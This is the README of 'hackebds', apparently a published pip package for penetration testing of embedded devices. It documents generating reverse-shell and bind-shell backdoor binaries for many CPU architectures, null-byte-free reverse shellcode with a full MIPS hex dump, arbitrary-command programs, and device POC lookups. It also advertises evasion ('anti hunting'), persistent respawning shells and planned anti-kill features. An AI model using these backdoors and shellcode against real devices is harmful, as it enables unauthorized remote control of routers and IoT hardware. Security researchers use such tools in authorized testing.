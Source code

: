 hackebds
========

| |image1|\ |image2|
| |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

**In 0.3.1 version ,bind_shell generate fuction has big bug, This will
cause the file generation to fail，This version has been unpatched,
please use version 0.3.2 and latest**

**On Android reverse\_ shell\_ File and bin\_ There are some bugs in the
shell function. Please replace it with aarch64**

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** of various architectures. The backdoor
   program is packaged in shellless pure shellcode and is smal，Pure
   static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64 are now
   supported, and they are still being updated** (PS:bash support is
   added to the reverse shell after version 0.3.1). If the backdoor of
   the reverse shell is generated with the - power parameter, the
   reverse shell will continue to be generated on the target machine)

2. Generate **reverse_shell shellcode** of various architectures during
   the exploit process, and no null bytes, which facilitates the
   exploitation of memory corruption vulnerabilities on embedded
   devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64, mipsel64,
   powerpc, powerpc64，sparc are now supported, and they are still being
   updated**

3. Generate bind of various architectures bind_Shell file.

4. Sort out the exploitable vulnerability POC or EXP of the embedded
   device, and search and output the basic information and POC of the
   device model in use: Function of equipment, Architecture of
   equipment,Device CPU manufacturer,Device CPU model,WEB service
   program of the device, and so on

5. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

install
-------

Just use pip to install, if the installation fails, try to use sudo to
install

.. code:: 

   pip(3) install -U hackebds

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

If the following error occurs

hackebds: error: argument -model: expected one argument

Please set all parameters to lowercase or lowercase mixed with
uppercase. I guess it is due to the conflict between python and bash in
the interpretation of uppercase and lowercase letters

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   By default, the reverse shell backdoor is created using sh. If bash
   is required (PS: here, the bash command needs to exist on the target
   device)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash

   If you need to generate a backdoor and constantly create reverse
   shells (the CPU occupied by the test is about% 8)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   Create bind_shell to monitor the shell as sh, -power fuction can give
   -shell bash

   .. code:: 

      hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power

   The bind_shell process will not stop after being disconnected, and
   supports repeated connections (currently this function is not
   supported by powerpc and sparc series)

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   Generate cmd_file function is updated. Only need to specify the - cmd
   parameter to generate programs for various architectures to execute
   corresponding commands , -envp Environment variables are separated by
   commas

   .. code:: 

      hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png
      :alt: 

   | The list relationship between the output model and the architecture
     is added to the function of generating the back door of the
     specified model to facilitate the user to observe and modify. The
     output information will be enhanced after version 0.3.5, such as
     (60 device information, POC40+or so):
   | Function of equipment
   | Architecture of equipment
   | Device CPU manufacturer
   | Device CPU model
   | WEB service program of the device
   | Device default SSH service support
   | Can monitoring be realized
   | Device default telnet user password
   | Device sdk support
   | Openwrt support for devices
   | Whether the device is vulnerable
   | POC output

   .. code:: 

      hackebds -l

   .. figure:: https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105027599.png
      :alt: 

   Add the retrieval of device information. Use - s to search for the -
   model parameter. This search is fuzzy and insensitive to case. Try to
   use the device information with the highest matching degree between
   lowercase output and input when inputting

   .. code:: 

      hackebds -model ex200 -s

   If the following warning occurs during command output

   | /usr/local/lib/python3.8/dist-packages/fuzzywuzzy/fuzz.py:11:
     UserWarning: Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning
   |  warnings.warn('Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning')

   If the following warning occurs during command output, you can use
   the following command to install python-levenshtein. After
   installation, the command retrieval speed can be increased by about 4
   times

   .. code:: 

      pip install python-levenshtein

   .. figure:: https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105520663.png
      :alt: 

   The POC corresponding to the generated device can use - p or -- poc,
   which may be python scripts, commands, etc., and may need to be
   modified by yourself

   .. code:: 

      hackebds -model ex200 -p

   .. figure:: https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105925356.png
      :alt: 

   If a vulnerability is found in the test and you want to add the basic
   information of a new device to this tool, you can use the - add
   function for POC files or/tmp/model\_ tree\_ The format of the
   directory directory of the new device under the info/directory can
   refer to the standard generated format. After the insertion, you can
   use the tool search and POC generation functions

   .. code:: 

      hackebds -add

   .. figure:: https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213111024854.png
      :alt: 

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC) like MediaTek MT7621
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660
| BCM2711

Powerpc, sparc: qemu

🍺enjoy hacking
---------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

2023.1.6 0.3.0 repaired cmd\_ The file generates the function bug of
executing the specified command program, and adds the model ->arch list,
Android bind\_ Shell file

2023.1.16 0.3.1 Added bash reverse\_ Shell. At present, this tool only
supports sh and bash. The - l function is added to list the relationship
between device model and architecture, and the - power function is added
to generate a more powerful reverse\_ shell\_ File, which realizes the
continuous creation of reverse shell links without killing the program.
Currently, the - power function only supports reverse\_ shell\_ file

2023.1.29 0.3.3 -The power function adds support for bind_shell,
bind_shell is more stable, and fixes some bugs in the execution of
bind_shell and cmd_file files of the aarch64 architecture

Problems to be solved
---------------------

Support the backend of the loongarch64 architecture and the generation
of the bind_shell program (binutils has been integrated into the
mainline, but cannot be installed directly through apt)

Improve the generation of power_bind_shell backdoors of powerpc and
sparc series

Add anti-kill function for backdoor programs

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

Verion List
-----------

+--------------------------+--------------+------------------------+
| VERSION                  | PUBLISHED    | DIRECT VULNERABILITIES |
+==========================+==============+========================+
| `0.3.2 <https:/          | 18 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.1 <https:/          | 16 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.0 <https:/          | 6 Jan, 2023  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.9 <https:/          | 26 Dec, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.8 <https:/          | 6 Dec, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.7 <https:/          | 22 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.3 <https:/          | 15 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.2 <https:/          | 8 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.1 <https:/          | 7 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.0 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.9 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.6 <https:/          | 27 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.5 <https:/          | 26 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.3 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.2 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.1 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.9 <https:/          | 21 May, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.8 <https:/          | 5 May, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.7 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.6 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.5 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.4 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.4>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.3 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.2 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.1 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.1>`__ |              |                        |
+--------------------------+--------------+------------------------+

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://static.pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds
